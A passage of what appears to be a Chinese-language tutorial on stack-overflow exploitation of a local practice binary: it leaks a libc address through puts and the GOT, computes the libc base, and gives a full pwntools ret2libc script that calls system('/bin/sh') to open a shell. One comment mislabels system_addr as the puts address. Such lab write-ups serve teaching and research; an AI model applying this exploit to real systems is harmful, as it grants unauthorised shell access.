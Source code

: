__libc_start_main 在 libc.so.6 中的偏移地址为 0x00018E30。  

![libc_base](https://bobbybby.oss-cn-zhangjiakou.aliyuncs.com/img/stack_overlow_attack/libc_base.png)  

现在将__libc_start_main 的地址减去其偏移地址即可得到 libc.so.6 的基址。  

```python
libc_base = libc_start_main_addr - 0x00018E30
```

&nbsp;

###### ret2libc

这里使用 system ("/bin/sh") 代替直接将 shellcode 写在栈上。由于之前获得了 libc.so.6 的基址，这只需要找到其中的两个偏移地址即可，分别是 system 函数入口偏移地址，“/bin/sh” 字符串偏移地址。  

system 函数入口偏移地址为 0x0003CE10。  

![system](https://bobbybby.oss-cn-zhangjiakou.aliyuncs.com/img/stack_overlow_attack/system.png)  
 
“/bin/sh” 字符串偏移地址为 0x0017B88F。  

![bin_sh](https://bobbybby.oss-cn-zhangjiakou.aliyuncs.com/img/stack_overlow_attack/bin_sh.png)  

```python
system_addr = libc_base + 0x0003CE10 # puts 函数入口地址
bin_sh_addr = libc_base + 0x0017B88F # "/bin/sh" 所在地址
```

最后攻击自动化的代码如下  

```python
# -*- coding: utf-8 -*
from pwn import *

p = process ('./anti_sof') # 运行程序
p.recvuntil ("：") # 当遇到 '：' 停止接收

# 获取基址
buf = '1' * 28
buf += p32 (0x08048360) # puts 函数入口地址
buf += p32 (0x080484E1) # main 函数入口地址
buf += p32 (0x0804A018) # __libc_start_main 在 GOT 中的地址
p.sendline (buf)
p.recvuntil ('\n') 

libc_start_main_addr_str = p.recv (4) # __libc_start_main 的地址
libc_start_main_addr = u32 (libc_start_main_addr_str) # 转为 int
libc_base = libc_start_main_addr - 0x00018E30

# ret2libc
system_addr = libc_base + 0x0003CE10 # puts 函数入口地址
bin_sh_addr = libc_base + 0x0017B88F # "/bin/sh" 所在地址

buf = '1' * 28
buf += p32 (system_addr)
buf += p32 (system_addr) # 任意地址
buf += p32 (bin_sh_addr)
p.sendline (buf)

p.interactive ()
```
